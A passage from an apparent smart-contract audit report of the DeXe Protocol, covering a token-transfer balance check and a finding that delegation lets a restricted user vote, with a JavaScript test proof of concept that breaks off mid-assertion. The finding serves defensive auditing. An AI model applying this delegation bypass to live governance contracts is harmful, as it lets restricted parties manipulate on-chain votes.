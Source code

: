 ```solidity
            msg.sender,
            address(this),
            _tierInitParams.totalTokenProvided.from18Safe(_tierInitParams.saleTokenAddress)
        );

        // record balance after the transfer in 18 decimals
        uint256 balanceAfter18 = saleToken.balanceOf(address(this)).to18(_tierInitParams.saleTokenAddress);

        // verify that the transfer has actually occured to protect users from malicious
        // sale tokens that don't actually send the tokens for the token sale
        require(balanceAfter18 - balanceBefore18 == _tierInitParams.totalTokenProvided,
                "TSP: token sale proposal creation received incorrect amount of tokens"
        );
```

**Dexe:**
Fixed in [PR177](https://github.com/dexe-network/DeXe-Protocol/commit/64bbcf5b1575e88ead4e5fd58d8ee210a815aad6).

**Cyfrin:** The fix changed from using `transferFrom` to `safeTransferFrom` however the recommendation requires that the actual balance be checked before and after the transfer to verify the correct amount of tokens have actually been transferred.


### Attacker can use delegation to bypass voting restriction to vote on proposals they are restricted from voting on

**Description:** Attacker can use delegation to bypass voting restriction to vote on proposals they are restricted from voting on.

**Impact:** Attacker can vote on proposals they are restricted from voting on.

**Proof of Concept:** Add PoC to `GovPool.test.js` under section `describe("vote()", () => {`:
```javascript
      it("audit bypass user restriction on voting via delegation", async () => {
        let votingPower = wei("100000000000000000000");
        let proposalId  = 1;

        // create a proposal where SECOND is restricted from voting
        await govPool.createProposal(
          "example.com",
          [[govPool.address, 0, getBytesUndelegateTreasury(SECOND, 1, [])]],
          []
        );

        // if SECOND tries to vote directly this fails
        await truffleAssert.reverts(
          govPool.vote(proposalId, true, votingPower, [], { from: SECOND }),
          "Gov: user restricted from voting in this proposal"
        );

        // SECOND has another address SLAVE which they control
        let SLAVE = await accounts(10);

        // SECOND delegates their voting power to SLAVE
        await govPool.delegate(SLAVE, votingPower, [], { from: SECOND });

        // SLAVE votes on the proposal; votes "0" as SLAVE has no
        // personal voting power, only the delegated power from SECOND
        await govPool.vote(proposalId, true, "0", [], { from: SLAVE });

        // verify SLAVE's voting
        assert.equal(
          (await govPool.getUserVotes(proposalId, SLAVE, VoteType.PersonalVote)).totalRawVoted,
          "0" // personal votes remain the same
```